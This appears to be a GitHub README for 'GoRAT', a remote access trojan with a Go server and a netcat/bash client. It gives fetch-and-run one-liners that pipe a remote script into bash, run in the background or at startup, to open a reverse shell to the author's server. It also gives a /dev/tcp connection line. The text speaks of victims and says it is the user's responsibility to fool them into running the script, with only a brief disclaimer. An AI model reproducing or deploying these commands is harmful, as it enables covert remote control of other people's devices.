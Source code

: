 # GoRAT
This is a [remote access trojan](https://www.fortinet.com/resources/cyberglossary/remote-access-trojan) toolset.

* server is written in Go
* client is utilizing the networking tool `netcat` which is distributed on most systems. (still under development)

If a victim unintentionally executed the command below, I will have full control over his/her device via a reverse shell.

```sh
# when manually run just once
nohup bash <(curl https://raw.githubusercontent.com/yanxurui/gorat/main/clickme.sh) &
# or when added to the startup script
bash <(curl https://raw.githubusercontent.com/yanxurui/gorat/main/clickme.sh) > /dev/null 2>&1 &
```

Of course, I am using this tool to manage my remote devices, such as router at home, behind NAT.
Please don't use it for any form of exploitation.

## Server
The server listens to a single port (8090 by default) but it can accept more than one remote or local connections.
Remote connections are initiated from the victims' computers by executing `clickme.sh` which will start a reverse shell.
Local connection can list all remote connections and select one of them to run any command in the reverse shell.

A echo remote peer can be setup by `tee >& /dev/tcp/yanxurui.cc/8090 <&1`

## Client
As long as the client has internet access and has bash installed, it can be exploited. It's your responsibility to fool the victim into running the shell script.


## Development
### Test
```sh
go test
go test . -run Dis
go test . -run TestRemoteDisconnected -v
```
